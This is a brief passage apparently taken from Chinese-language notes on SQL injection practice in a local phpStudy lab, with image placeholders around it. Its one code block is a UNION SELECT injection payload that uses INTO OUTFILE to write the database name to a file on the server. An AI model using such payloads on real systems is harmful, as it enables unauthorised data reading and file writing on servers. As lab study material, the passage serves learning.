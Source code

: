 ![](file/image_JBM9B_rR-U.png)

```sql
//将结果显示到文本，虽然显示错误，但是生成文件成功
union select 1,database(),3 into outfile "C:\\phpStudy\\MySQL\\data\\dump.txt" --+
```

![](file/image_aeg_iV0Pvh.png)
